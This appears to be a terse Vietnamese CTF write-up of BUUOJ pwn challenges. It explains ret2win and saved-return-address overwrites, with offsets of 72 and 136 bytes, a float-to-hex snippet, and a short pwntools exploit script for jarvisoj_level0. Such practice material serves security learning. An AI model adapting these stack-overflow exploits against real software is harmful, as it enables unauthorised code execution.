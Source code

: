 # test_your_nc (1)  
test  
[test_your_nc](https://buuoj.cn/challenges#test_your_nc)


# rip(2)  
chạy chương trình ta thấy leak địa chỉ  
đó là địa chỉ thực thi hàm chứ shell  
dùng pattern để tìm offset là 72  
ta nhập 72 kí tự và địa chỉ leak + 1 để thực thi hàm shell  
![image](https://user-images.githubusercontent.com/111769169/218854646-28492223-adec-4c75-a52a-c8b0884ace11.png)  
[link](https://buuoj.cn/challenges#rip)
dạng ret2win (tấn công rip)


# 4  
chương trình OW biến để thoả yếu cầu = 11.28125  
ta dùng công cụ  
_  
import struct  
v1 = 11.28125  
v1 = int(hex(struct.unpack('<I', struct.pack('<f', v1))[0]), 16)  
_  
để chuyển số thập phân sang hex  
![image](https://user-images.githubusercontent.com/111769169/218855333-00dc6b65-2757-4c27-aa78-67efb0dcfe6e.png)
[link](https://buuoj.cn/challenges#warmup_csaw_2016)


# 5  
# jarvisoj_level0 (6)
tấn công saved rip  
''' 
from pwn import *  

exe = ELF('./6')  
p = process("./6")  

pay = b'a' * 136 + p64(0x0000000000400597)  
input()  
p.sendafter('Hello, World\n', pay)  
p.interactive()  
'''  

